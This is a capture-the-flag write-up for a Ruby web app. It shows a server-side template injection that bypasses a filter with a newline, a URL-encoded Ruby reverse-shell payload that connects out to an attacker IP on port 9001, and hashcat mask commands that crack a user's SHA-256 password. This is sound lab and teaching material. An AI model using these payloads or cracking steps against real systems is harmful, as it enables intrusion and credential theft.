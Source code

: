 
# Step 1 - Recognition

I first search for opened ports using nmap :
![Untitled](assets/screenshot_1.png)

On the port 80, I found a website with a form to compute a weighted average :
![Untitled](assets/screenshot_2.png)

I try to make some XSS injections but the fields are protected.
On the footer of the website, we can see that the server uses WEBrick which use the language Ruby :
![Untitled](assets/screenshot_3.png)

I search for [SSTI](https://nahco3.fr/2021/11/ssti_1/) and found a syntax in Ruby :
```jsx
<%= RUBY_CODE %>
```

Then if we try to put this payload, we will get as a result `49` :
```ruby
<%= 7 * 7 %>
```

But the fields are protected :
![Untitled](assets/screenshot_4.png)

I try to encode the payload to the URL format like this :
```jsx
%3C%25%3D%207%20%2A%207%20%25%3E
```

But it give the same result.
With Burp, if we try this payload :

```jsx
a
<%= 7 * 7 %>
```
Encoded in the URL format :
```jsx
a%0A%3C%25%3D%207%20%2A%207%20%25%3E
```

It gives us the following result :
![Untitled](assets/screenshot_5.png)

As we can see, the result is interpreted.
The reason why it worked is because only the first line is protected (because on the front-side, we can only enter a single line).

Then, we can execute a reverse-shell by replacing `7 * 7` by the reverse-shell payload :
```jsx
system('ruby -rsocket -e\\'spawn("sh",[:in,:out,:err]=>TCPSocket.new("ATTACKER_IP",9001))\\'')
```

Again we encode it in the URL format :
```jsx
a%0A%3C%25%3D%20system%28%27ruby%20-rsocket%20-e%5C%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.14.5%22%2C9001%29%29%5C%27%27%29%20%25%3E
```

And I get the reverse-shell :
![Untitled](assets/screenshot_6.png)

And then I get the user.txt flag

#### Flag root.txt

In the reverse-shell, I found a directory `Migration` in `/home/susan`. This file contains credentials with hashed passwords :
![Untitled](assets/screenshot_7.png)

By putting this file in a database viewer online, I can find the full hash of susan. I use a tool named [Hash Identifier](https://github.com/blackploit/hash-identifier.git) to identify the hash type :
![Untitled](assets/screenshot_8.png)

So the hash type is SHA-256.
I cannot crack the password using `john` and the wordlist `rockyou.txt`. I try to search for informations in the VM and found a mail at `/var/spool/mail` explaining the new format of a password :
![Untitled](assets/screenshot_9.png)
```bash
{firstname}_{firstname backwards}_{random_int_between_1_and_1.000.000.000}
```

Then we can already find the first part of the password :
```bash
susan_nasus_
```

And crack the other part using hashcat :
```bash
hashcat -m 1400 -a 3 susan "susan_nasus_?d"
```

By adding `?d` at the end of the password, we tell hashcat that the password contains a digit. So we add enough digits to go from 1 to 1.000.000.000 and we get this mask :
```bash
hashcat -m 1400 -a 3 susan "susan_nasus_?d?d?d?d?d?d?d?d?d"
```

I finally find this password :
```bash
susan_nasus_413759210
```

And I can finally get the root password.